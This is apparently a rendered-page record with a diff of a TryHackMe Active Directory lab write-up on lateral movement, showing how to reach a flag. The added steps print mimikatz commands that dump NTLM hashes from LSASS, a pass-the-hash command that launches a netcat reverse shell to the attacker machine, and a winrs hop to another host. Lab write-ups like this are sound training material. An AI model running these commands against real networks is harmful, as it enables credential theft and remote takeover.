

Before and after one commit to tymyrddin/red-ad, a Sphinx documentation site: the page built from source/docs/pivot/auth.md, in a window 1280 px wide and 1400 px high, scrolled down 7191 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/source/docs/pivot/auth.md
+++ b/source/docs/pivot/auth.md
@@ -233,17 +233,46 @@ To receive the reverse shell, run a listener on the attack machine:
 
 ## Get the flag
 
-The given credentials will grant administrative access to THMJMP2, allowing for the use of mimikatz to dump the
+The given credentials will grant t2 administrative access to THMJMP2, allowing for the use of mimikatz to dump the
 authentication material needed for any of the applied techniques. Both mimikatz and psexec64 are available at
-`C:\tools` on THMJMP2.
+`C:\tools` on THMJMP2. Perform a Pass-the-Hash, Pass-the-Ticket or Pass-the-Key against domain user t1_toby.beck and
+get the flag.
 
-Using an `ssh` session, use `mimikatz` to extract authentication material and perform Pass-the-Hash, Pass-the-Ticket
-or Pass-the-Key against domain user t1_toby.beck.
+Using an `ssh` session:
 
-Once you have a command prompt with his credentials loaded, use `winrs` to connect to a command prompt on THMIIS.
+    ssh t2_felicia.dean@za.tryhackme.com@thmjmp2.za.tryhackme.com
+
+Start `mimikatz`:
+
+    powershell
+    cd C:/tools
+
+    mimikatz.exe
+
+Elevate privileges:
+
+    mimikatz # privilege::debug
+    mimikatz # token::elevate
+
+Dump any cached NTLM hashes from the LSASS process memory:
+
+    mimikatz # sekurlsa::msv
+
+Using an ssh session mimics a reverse shell, but we can not use `/run:"cmd.exe"` because we can not spawn a sub-shell.
+
+`sekurlsa::pth` is going to inject t1_toby.beck's NTLM hash into the cmd.exe reverse shell back to Kali:
+
+    mimikatz # token::revert
+    sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /ntlm:533f1bd576caa912bdb9da284bbc60fe /run:"C:\tools\nc64.exe -e cmd.exe <vpn ip attack machine> 6666
+
+Start a listener on the attack machine:
+
+    sudo nc -lnvp 6666
+
+Having a command prompt with his credentials loaded, use `winrs` to connect to a command prompt on THMIIS.
 Since t1_toby.beck's credentials are already injected in your session as a result of the attacks, you can use `winrs`
-without specifying any credentials, and it will use the ones available to your current session:
+without specifying any credentials, and it will use the ones available to the current session:
 
     winrs.exe -r:THMIIS.za.tryhackme.com cmd
 
-You'll find a flag on t1_toby.beck's desktop on THMIIS.
+The flag is on t1_toby.beck's desktop on THMIIS.
```
